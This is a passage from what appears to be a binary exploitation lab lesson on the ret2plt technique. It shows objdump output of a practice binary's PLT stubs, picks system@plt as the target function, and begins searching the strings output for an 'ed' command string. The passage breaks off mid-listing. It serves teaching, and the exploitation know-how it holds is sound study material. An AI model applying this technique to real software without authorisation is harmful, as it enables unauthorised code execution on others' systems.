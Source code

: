 Let's look at the available PLT stubs to choose from.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/9_bypass_ret2plt/build$ objdump -d ./1_clock -j .plt

./1_clock:     file format elf32-i386


Disassembly of section .plt:

08048330 <read@plt-0x10>:
 8048330:	ff 35 04 a0 04 08    	pushl  0x804a004
 8048336:	ff 25 08 a0 04 08    	jmp    *0x804a008
 804833c:	00 00                	add    %al,(%eax)
	...

08048340 <read@plt>:
 8048340:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 8048346:	68 00 00 00 00       	push   $0x0
 804834b:	e9 e0 ff ff ff       	jmp    8048330 <_init+0x24>

08048350 <printf@plt>:
 8048350:	ff 25 10 a0 04 08    	jmp    *0x804a010
 8048356:	68 08 00 00 00       	push   $0x8
 804835b:	e9 d0 ff ff ff       	jmp    8048330 <_init+0x24>

08048360 <puts@plt>:
 8048360:	ff 25 14 a0 04 08    	jmp    *0x804a014
 8048366:	68 10 00 00 00       	push   $0x10
 804836b:	e9 c0 ff ff ff       	jmp    8048330 <_init+0x24>

08048370 <system@plt>:
 8048370:	ff 25 18 a0 04 08    	jmp    *0x804a018
 8048376:	68 18 00 00 00       	push   $0x18
 804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x24>

08048380 <__libc_start_main@plt>:
 8048380:	ff 25 1c a0 04 08    	jmp    *0x804a01c
 8048386:	68 20 00 00 00       	push   $0x20
 804838b:	e9 a0 ff ff ff       	jmp    8048330 <_init+0x24>
```

We are in luck, because `system@plt` is a powerful function we can definitely use. That's one out of two things we need. The second thing is a command we can execute. Normally, we would use "/bin/sh" but it does not seem we would find that here.

Take a moment to figure out a target before taking a look at the answers.

It turns out that `ed` is a valid Linux command. It actually spawns a minimalistic editor. It also turns out that there is an "ed" string available in the binary. Can you spot it?

```
ubuntu@ubuntu-xenial:/vagrant/lessons/9_bypass_ret2plt/build$ strings -a 1_clock
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
puts
printf
read
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
UWVS
t$,U
```